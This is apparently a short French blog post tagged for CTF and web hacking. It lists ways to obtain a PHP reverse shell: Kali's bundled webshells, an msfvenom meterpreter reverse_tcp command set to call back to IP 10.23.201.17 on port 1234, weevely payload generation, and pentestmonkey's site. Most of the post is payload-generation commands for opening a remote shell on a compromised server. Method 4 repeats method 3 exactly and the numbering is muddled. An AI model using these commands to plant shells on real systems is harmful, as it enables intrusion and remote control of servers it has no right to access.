 ```yaml
---
layout: post
section-type: post
title: Reverse shell
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Le but de cet article est de vous montrer les différentes manières façons de vous munir d'un "reverse shell".

Pour des raisons de modularité, un article traitant le reverse shell de façon complète sera rédigé et il fera réference à celui-ci ainsi qu'à plein d'autres disponibles sur mon site. 

---------------------------------------------

#### Pré requis 
1-Avoir les bases d'un langage de programmation côté serveur <br/>
2-Avoir installer et configurer une machhine orientée "sécurité" (Kali linux, Parrot OS,...) <br/>
3-Avoir fait les configurations nécessaires dans le routeur pour le cas où la connexion à la machine est distante

---------------------------------------------

#### Méthode 1: shell par défaut sur kali linux
  <pre><code data-trim class="yaml">
      #répertoire par défaut des "reverse shell" sur Kali linux
      cd /usr/share/webshell/php 
  </code></pre> <br/>

NB: Il ne faudra pas oublier de faire les modifications qui vont bien dans ce fichier notamment votre IP et port d'écoute.
---------------------------------------------

#### Méthode 2: créer un reverse shell avec meterpreter
  <pre><code data-trim class="yaml">
      #reverse shell nommé enregistré sur le bureau sous "come-on.php" au profit de la machine d'IP 10.23.201.17 écoutant sur le port 1234
      msfvenom -p php/meterpreter/reverse_tcp LHOST=10.23.201.17 LPORT=1234 > /Desktop/come-on.php
  </code></pre> <br/>

---------------------------------------------

#### Méthode 3: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell nommé enregistré sur le bureau sous "come-on.php" avec le mot de passe "noLog_hhhhhhhh"
      weevely generate noLog_hhhhhhhh /root/Desktop/come-on.php 
  </code></pre> <br/>

NB: Il ne faudra pas oublier de faire les modifications qui vont bien dans ce fichier notamment votre IP et port d'écoute.
---------------------------------------------

#### Méthode 4: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell nommé enregistré sur le bureau sous "come-on.php" avec le mot de passe "noLog_hhhhhhhh"
      weevely generate noLog_hhhhhhhh /root/Desktop/come-on.php 
  </code></pre> <br/>

NB: Il ne faudra pas oublier de faire les modifications qui vont bien dans ce fichier notamment votre IP et port d'écoute.
---------------------------------------------

#### Méthode 3: utiliser Internet
  visiter le site web : [http://pentestmonkey.net/](http://pentestmonkey.net/), par exemple

NB: Il ne faudra pas oublier de faire les modifications qui vont bien dans le fichier téléchargé notamment votre IP et port d'écoute.
---------------------------------------------
